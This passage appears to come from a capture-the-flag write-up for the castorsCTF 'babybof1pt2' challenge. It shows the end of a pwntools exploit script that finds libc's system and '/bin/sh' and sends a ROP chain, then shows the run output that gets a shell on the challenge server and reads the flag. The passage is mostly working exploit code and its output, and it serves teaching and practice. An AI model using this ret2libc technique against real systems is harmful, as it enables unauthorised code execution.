 ```python3
log.info("Address of libc %s " % hex(libc.address))

BINSH = next(libc.search(b"/bin/sh")) #Verify with find /bin/sh
SYSTEM = libc.sym["system"]

log.info("bin/sh %s " % hex(BINSH))
log.info("system %s " % hex(SYSTEM))

rop2 = base + p64(RET) + p64(POP_RDI) + p64(BINSH) + p64(SYSTEM)
p.sendline(rop2)
p.interactive()
p.close()
```

Run the script:
```console
$ python3 exploit.py
[+] Opening connection to chals20.cybercastors.com on port 14425: Done
[*] '/home/user/castorsctf/babybof1pt2/bof'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
[*] Loaded 14 cached gadgets for './bof'
[*] '/home/user/castorsctf/babybof1pt2/libc-2.31.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] puts@plt: 0x400590
[*] __libc_start_main: 0x600ff0
[*] pop rdi gadget: 0x4007f3
b'Welcome to the cybercastors Babybof\n'
b'Say your name: '
b'\xc0\xef\xe2\xa4o\x7f'
[*] Leaked libc address,  __libc_start_main: 0x7f6fa4e2efc0
[*] Address of libc 0x7f6fa4e08000 
[*] bin/sh 0x7f6fa4fbf5aa 
[*] system 0x7f6fa4e5d410 
[*] Switching to interactive mode
Welcome to the cybercastors Babybof
Say your name: /bin/sh: 0: can't access tty; job control turned off
$ $ ls
babybof  flag.txt  shell_flag.txt
$ $ cat shell_flag.txt
castorsCTF{w0w_U_jU5t_h4ck3d_th15!!1_c4ll_th3_c0p5!11}
$ $  
```
